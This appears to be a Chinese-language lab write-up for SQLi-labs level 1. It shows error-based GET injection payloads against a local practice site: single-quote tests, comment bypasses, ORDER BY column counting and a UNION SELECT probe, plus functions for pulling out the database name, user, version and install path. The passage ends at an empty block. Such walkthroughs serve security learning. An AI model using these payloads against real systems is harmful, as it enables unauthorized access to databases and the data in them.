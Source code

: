 ```yaml
---
 title: Sqlilabs通关笔记(1-10)
 date: 2020-01-02 15:28:58
 tags:
 categories:
---
```



## 环境搭建

## 用于SQL注入学习环境

1. [源码下载地址](https://github.com/himadriganguly/sqlilabs)
2. 用phpstudy或者web环境直接搭建运行


## 第一关 基于错误的GET单引号字符型注入
![Sqlilabs通关笔记(1-10)-2020-1-2-15-44-55](https://raw.githubusercontent.com/bbkali/picbad/master/Sqlilabs%E9%80%9A%E5%85%B3%E7%AC%94%E8%AE%B0(1-10)-2020-1-2-15-44-55)

<!--more-->
- **存在注入判断**

    1. 加上单引号报错
    ```
    http://localhost/sqlilabs/practice/example1.php?id=1'
    ```
    2. 加上注释符页面正常
    ```
    http://localhost/sqlilabs/practice/example1.php?id=1' %23
    ```
    * 注释方式
        - \# 号注释
        - %23 注释 
        - --+ 注释
    3. 判断字段数(使用order by)
    ```
    http://localhost/sqlilabs/practice/example1.php?id=1'  order by 3%23 # 正常
    http://localhost/sqlilabs/practice/example1.php?id=1'  order by 4%23 # 页面显示错误

    说明字段数为3
    ```
    4. 执行注入Payload
    ```
    # 判断显示的信息点，通过id=-1来执行联合查询
    http://localhost/sqlilabs/practice/example1.php?id=-1' union select 1,2,3%23
    ```
    ![Sqlilabs通关笔记(1-10)-2020-1-2-17-0-34](https://raw.githubusercontent.com/bbkali/picbad/master/Sqlilabs%E9%80%9A%E5%85%B3%E7%AC%94%E8%AE%B0(1-10)-2020-1-2-17-0-34)
    
    * 常用查询信息
        - database() # 在用的数据库名
        - user()    # 用户信息
        - version() # 数据库版本信息
        - @@basedir # 数据库安装路径
    
    ![2020-1-2-17-43-36](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-2-17-43-36)
    

    5. 查看数据库数据

    * 查看表名称
    ```

    ```
